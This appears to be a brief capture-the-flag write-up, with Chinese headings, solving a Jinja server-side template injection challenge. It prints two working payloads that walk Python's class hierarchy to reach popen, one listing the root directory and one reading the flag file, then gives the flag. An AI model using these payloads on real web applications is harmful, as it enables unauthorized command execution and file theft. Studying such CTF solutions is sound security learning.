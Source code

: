 FLAG{magic_cat_pwnpwn}

## Jinja
得知 flag 檔案名稱
```python!
{{ "".__class__.__base__.__subclasses__()[132].__init__.__globals__['popen']('ls -al /').read() }}
```

讀取檔案
```python!
{{ "".__class__.__base__.__subclasses__()[132].__init__.__globals__['popen']('cat /th1s_15_fl4ggggggg').read() }}
```

FLAG{ssti.__class__.__pwn__}

###### tags: `CTF`